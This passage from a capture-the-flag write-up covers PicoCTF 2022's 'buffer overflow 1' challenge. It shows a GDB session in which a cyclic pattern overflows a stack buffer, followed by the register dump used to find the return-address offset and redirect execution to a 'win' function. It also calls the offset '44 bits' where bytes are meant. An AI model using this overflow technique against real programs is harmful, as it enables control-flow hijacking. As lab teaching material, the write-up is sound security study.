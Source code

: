 - We can see that the address we want to actually go to is `0x080491f6  win`, and so our goal is to overwrite the return address with this one.  Since we have the source code and know the buffer length we can probably jump right into exploiting the service over netcat and working our way up from 32 characters, but to approach this in a way that works more generally (i.e. when we don't get direct information about the address space from the program itself) we can continue to use GDB and generate a long string via metasploit's pattern-create or this handy [online tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html){:target="_blank"}.


```c
gdb-peda$ run
Starting program: /home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln 
Please enter your string: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Okay, time to return... Fingers Crossed... Jumping to 0x35624134

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x41326241 ('Ab2A')
ECX: 0x41 ('A')
EDX: 0xffffffff 
ESI: 0x1 
EDI: 0x80490e0 (<_start>:       endbr32)
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffd0b0 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x35624134 ('4Ab5')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35624134
[------------------------------------stack-------------------------------------]
0000| 0xffffd0b0 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0004| 0xffffd0b4 ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0008| 0xffffd0b8 ("8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0012| 0xffffd0bc ("Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0016| 0xffffd0c0 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0020| 0xffffd0c4 ("2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0024| 0xffffd0c8 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0028| 0xffffd0cc ("c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35624134 in ?? ()
```

- When the program crashes, we can see the return address (the value of the EIP register) was overwritten with "4Ab5".  Using the online tool we see the offset is 44 bits.  
